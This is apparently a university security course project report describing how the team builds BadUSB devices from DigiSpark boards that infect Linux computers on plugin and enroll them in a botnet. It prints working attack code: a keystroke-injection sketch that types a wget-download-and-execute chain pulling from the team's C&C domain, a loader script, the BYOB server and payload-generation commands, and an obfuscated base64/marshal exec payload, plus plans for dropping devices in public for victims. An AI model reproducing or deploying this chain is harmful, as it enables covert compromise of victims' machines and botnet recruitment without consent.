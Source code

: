 # CSUS CSC154: Project Midterm Report

## Objective  
The objective of this project is to create BadUSB devices, that upon plugin, infect victim computers with malware configured to join a botnet.

### BadUSB  
To create our BadUSB devices we'll be using the [DigiSpark](http://digistump.com/products/1) development board by [Digistump](http://digistump.com/). These devices will be reconized as USB keyboards by the victims' machines, and will execute keystrokes to deliver our payload.

### Botnet  
For our botnet we're currently still exploring a handful of open source frameworks. The leading contender at the moment is [Build Your Own Botnet](https://github.com/malwaredllc/byob). Other frameworks we're looking into include [GoBot2](https://github.com/SaturnsVoid/GoBot2), [UBoat](https://github.com/Souhardya/UBoat), and [Loki](https://github.com/Pure-L0G1C/Loki). There may be other frameworks we explore as they're discovered. Our ultimate goal is an easily deployed and managed *command and control server*, and the ability to generate cross platform compatible clients.


## Progress  

### DigiSpark  
Thus far, we've purchased our BadUSB (DigiSpark) devices via Amazon. We have 12 of these devices spread across our members. They cost about $3 dollars each. 

![amazon](./images/amazon.png)
**Figure 1:** DigiSpark boards on Amazon.

In order to program our USB devices we've installed the [Arduino IDE](https://www.arduino.cc/en/Main/Software).  
![arduino_download](./images/arduino_download.png)
**Figure 2:** Download the Arduino IDE.

We've then configured the Arduino IDE to include the DigiSpark board, so that we may use the `DigiKeyboard.h` library.   
![digistump_json](./images/digistump_json.png)
**Figure 3:** Add DigiStump board manager url to configuration.

![digistump_boardmanager](./images/digistump_boardmanager.png)
**Figure 4:** Board manager downloading DigiStump's board libraries.

![digistump_default](./images/digistump_setboard.png)
**Figure 5:** Set board to Digispark Default.

The following code is what we've developed thus far to infect Linux machines upon plugin.

```c
#include "DigiKeyboard.h"


/***
 * 
 * This is an attack for Linux machines. It opens up a terminal window. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 * 
 ***/

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
}

void loop() {}
```

As you can see above, the code delays for two seconds to allow the machine to register the device. After that it executes keystrokes to open up the terminal, and waits .6 seconds. Next it executes shell commands to download our bash script called `linux_loader` from the server. It then sets the script to executable, and executes it as a background process before exiting.

The code for our `linux_loader` and `linux_payload.py` can be found in the section below.

### Command and Control Server  
* [Digital Ocean](https://digitalocean.com)
* [Domain Name](https://sheep.casa)
* [BYOB](https://github.com/malwaredllc/byob)


We've created a VPS on Digital Ocean to run our C&C server. We're using an Ubuntu 18.04 droplet at the cost of $5 per month. Additionally, we've purchased the domain `sheep.casa`, and directed it towards our C&C server.

![digitalocean](./images/digitalocean.png)
**Figure 6:** Botnet C&C server droplet on Digital Ocean.

![sheep](./images/sheep.png)
**Figure 7:** ASCII sheep, just for fun.



The botnet framework we're currently using (BYOB) was installed via `git clone git@github.com:malwaredllc/byob.git && cd ./byob && pip install -r requirements.txt &&  mv ../byob /opt/`. This clones the repository, installes the required python modules, and moves the directory to into `/opt`.  

To launch the botnet we've created a bash script setting the host to `sheep.casa` and the listening port to `1337`. This script is placed in the `/root` directory. 

```bash
#!/bin/bash
cd /opt/byob/byob && python server.py --port 1337
```

![boot_BYOB](./images/boot_BYOB.png)
**Figure 8:** Botnet server running, no current sessions.



### Payloads  

#### Loader
Our BadUSB attack downloads and executes the loader script. For our attack on Linux machines this is a bash script called `linux_loader`, which can be found below.

```bash
#!/bin/bash
nohup wget https://sheep.casa/payloads/linux_payload.py -P /tmp && python /tmp/linux_payload.py
```

The loader script downloads our python payload and executes it to join our botnet. This script is run in the background so that the terminal window is not present while the botnet client (payload) is running.

#### Python Payload

A paylaod is generated via BYOB's `client.py` script. We've generated our linux payload by issuing `python client.py --name linux_payload --encrypt --compress --freeze sheep.casa 1337`.

![payload_generated](./images/payload_generated.png)
**Figure 9:** Generating our python payload.

In order to host our payloads, we've installed Apache 2. The payload generated above was moved from BYOB's directory to `/var/www/html/payloads`. This is where our victims will download the payload from.

![payload_directory](./images/payload_directory.png)
**Figure 10:** `/payloads` directory hosting our malicious files.


Below is our `linux_payload.py` file generated by BYOB.  

```python
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode('eJwrtmBgYCgtyskvSM3TUM8oKSmw0tcvzkhNLdBLTixOtDI0NrYACpQkpqcWFesXJCfqFVSqa+oVpSamaGgCAFaFE3g=')))))
```


## Demo  



## Todo
We've yet to configure our BadUSB devices to infect Windows or OSX machines. Additionally, we need to develop payloads for Windows and OSX to deliver via our BadUSB devices once they're configured. Across the team we should already have computers running each OS to begin our development. 

Ideally, the same BadUSB device would be able to infect Windows, OSX, and Linux. However, we're still uncertain that this is technically achievable given the way USB functions. Currently we do not have knowledge of how to detect which operating system a victim's computer is running. We may need to configure different devices to be plugged in depending on the victim's machine. However, we will still explore how one device may be used to infect all OS(s). An option we're exploring is simply loading all of our payloads onto one device, and attempting to execute each of them quietly until the machine is infected.

A different device per OS would be perfectly acceptable in an attack scenario in which the attacker has physical access to the victim's machine. The devices are cheap and small, so carrying three of them should be no issue. However, for attack scenarios in which the drive is left in a public place for a victim to find, the ability to infect any OS would greatly improve the success rate.

